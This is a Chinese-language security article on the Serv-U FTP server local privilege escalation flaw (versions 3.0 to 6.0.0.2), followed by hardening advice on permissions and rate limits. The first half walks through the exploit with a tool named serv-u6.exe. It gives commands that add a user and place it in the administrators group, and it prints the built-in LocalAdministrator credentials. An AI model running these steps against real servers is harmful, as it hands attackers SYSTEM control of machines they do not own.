 　　PCS小提示：尽管在Serv-U6.0.0.2中增加了密码安全设置功能。但是本文作者在对Serv-U6.0.0.2进行测试的时候发现，在安装Serv-U的服务器权限设置不当的时候依然能提升权限成功。

　　漏洞发现日期：2004-08-09

　　影响版本：RhinoSoft Serv-U 3.0.0.20 至RhinoSoft Serv-U 6.0.0.2

　　漏洞危害：Serv-U存在设计问题，本地攻击者可以利用这个漏洞以SYSTEM权限在操作系统上执行任意命令。

　　测试环境：Microsoft Windows Server 2003, Enterprise Edition+Serv-U FTP Server 6.0.0.2

　　测试过程：

　　第一步：以普通用户身份登录Windows，在开始菜单的运行窗口中输入cmd，在命令提示符下输入Serv-U6(运行Serv-U6本地提升权限工具，见图1)：

　　![](http://www.hack58.net/Article/UploadPic/2007-1/20071141823353.jpg)

　　输入serv-u6.exe 43958 &ldquo;net user test test /add&rdquo;，添加一个名为&ldquo;test&rdquo;的用户。

　　第二步：接着输入serv-u6.exe 43958 &ldquo;net localgroup administrators test /add&rdquo;将该账户提升为超级用户权限，如果成功，那么软件界面将会返回提示信息

　　USER LocalAdministrator

　　PASS #l@$ak#.lk;0@P

　　这个时候，你可以使用用户名test，密码test进行登录了，并且发现自己已经成为超级用户了，这里不需要再说明什么了，你已经拥有了系统的超级权限了，入侵者已经可以在你的电脑上为所欲为了。

　　漏洞解决方案：尽快升级到最新版本，由于此本地提升权限漏洞为软件设计问题，并非程序出现异常。

　　安全对策

　　Serv-U安全隐患重重，那么如何才能防范入侵呢？笔者以Windows 2003 Sp1系统、NTFS分区为例，在保证系统安装好最新补丁的情况下，来对系统进行安全部署。首先安装Serv-U最新版本于非系统分区，由于默认情况下系统盘的一些目录都被赋予了everyone权限，这给攻击者在获取Webshell的时候执行攻击程序提供了环境。安装过程很简单，注意安装过程中是否有必要设置匿名登录，否则禁止匿名登录。

　　1．系统权限设置

　　第一步：对Serv-U目录设置权限。对用户组进行清理，留下Administrators和system，我们赋予Administrator权限，当然我们还可以新建立一个用户组来对Serv-U操作，把目录赋予此用户完全控制的能力，不过此方法不适合虚拟主机进行日常添加和删除用户操作。

　　第二步：建立一个FTP用户目录，根目录赋予Administrators完全控制权限，System只读权限。

　　第三步：为每个用户创建各自的目录，并赋予如下安全策略：

　　删除 Everyone group（这里尤为关键）

　　该System account's folder's 完全控制

　　添加给用此目录的用户完全访问控制

　　第四步：通过Serv-U设置用户权限，取消&ldquo;执行&rdquo;权限。在Web目录中去掉执行权限，以防止取得webshell后运行攻击程序来对Serv-U进行攻击。在进行权限设置的时候请遵循基本规律：有特殊属性的放在前面，共用属性的放在后面！

　　此外，针对Serv-U的插件实现账号隐藏的攻击方式惟有在目录权限设置不当并且入侵者取得WebShell的时候进行文件替换，挂接Dll。只要权限设置合理，定期对Serv-U目录检查，Serv-U安装后文件并不多，此类攻击方式很容易现形。

　　2．防范大容量文件攻击

　　在安装好FTP软件后，首先需要添加自己的域，然后在域上添加FTP的登录用户，当添加用户后，软件一般默认没有对添加的用户进行文件上传、下载的速率进行设置，因此这样一来就有被攻击的隐患，那就是黑客会利用这个漏洞对FTP软件发送大容量的文件，然后导致FTP处理不过来而造成程序没响应或者自动关闭。

　　在&ldquo;常规&rdquo;中能看到&ldquo;最大上传速度、最大下载速度（KB/秒）&rdquo;的选项。我们一般默认是不填的，建议用户设置一个具体的数字来限制这个速度。同时，最好把在&ldquo;空闲超时、任务超时、最大用户数&rdquo;的选项上也设置一个具体的数值。一般地，默认10分钟就足够了（见图2）。
